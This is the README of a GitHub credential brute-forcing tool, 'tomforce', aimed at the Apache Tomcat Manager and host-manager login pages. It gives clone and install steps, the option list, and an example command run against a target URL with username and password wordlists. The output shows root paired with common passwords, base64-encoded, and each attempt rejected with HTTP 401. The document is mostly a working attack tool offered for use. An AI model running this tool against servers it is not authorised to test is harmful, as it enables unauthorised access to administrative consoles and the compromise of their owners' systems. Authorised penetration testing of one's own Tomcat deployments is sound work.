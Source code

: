 # Tomcat Manager Credential Bruteforcing

# Usage

git clone https://github.com/v1ru6/tomforce.git
pip install termcolor

python3 tomforce.py

options:

-h, --help                              show this help message and exit  
-U URL, --url URL                       Base URL to the Tomcat page (e.g., http://target.com)  
-P PATH, --path PATH                    Manager or host-manager URI (e.g., /host-manager/html)  
-u USERNAMES, --usernames USERNAMES     Path to file containing usernames  
-p PASSWORDS, --passwords PASSWORDS     Path to file containing passwords  
-v, --verbose                           Enable verbose output to see attempted credentials and encoded values  
-r RATE_LIMIT, --rate-limit RATE_LIMIT  Delay in seconds between requests (e.g., 0.5 for half a second)  
                        
# Example

python3 tomforce.py -U https://example.com -P /host-manager -u usernames.txt -p passwords.txt -v

[\+] Starting Brute-force Attack...                                                                        
[\*] Trying root:123456 → Encoded: cm9vdDoxMjM0NTY= → HTTP 401                                                                
[\*] Trying root:admin → Encoded: cm9vdDphZG1pbg== → HTTP 401                                                                 
[\*] Trying root:12345678 → Encoded: cm9vdDoxMjM0NTY3OA== → HTTP 401                                                          
[\*] Trying root:123456789 → Encoded: cm9vdDoxMjM0NTY3ODk= → HTTP 401                                                         
[\*] Trying root:1234 → Encoded: cm9vdDoxMjM0 → HTTP 401                                                                      
[\*] Trying root:12345 → Encoded: cm9vdDoxMjM0NQ== → HTTP 401                                                                 
[\*] Trying root:password → Encoded: cm9vdDpwYXNzd29yZA== → HTTP 401                                                          
[\*] Trying root:123 → Encoded: cm9vdDoxMjM= → HTTP 401                                                                       
[\*] Trying root:Aa123456 → Encoded: cm9vdDpBYTEyMzQ1Ng== → HTTP 401                                                          
[\*] Trying root:1234567890 → Encoded: cm9vdDoxMjM0NTY3ODkw → HTTP 401                                                        
[\*] Trying root:UNKNOWN → Encoded: cm9vdDpVTktOT1dO → HTTP 401                                                               
[\*] Trying root:1234567 → Encoded: cm9vdDoxMjM0NTY3 → HTTP 401                                                               
[\*] Trying root:123123 → Encoded: cm9vdDoxMjMxMjM= → HTTP 401                                                                
[\*] Trying root:111111 → Encoded: cm9vdDoxMTExMTE= → HTTP 401                                                                
[\*] Trying root:Password → Encoded: cm9vdDpQYXNzd29yZA== → HTTP 401
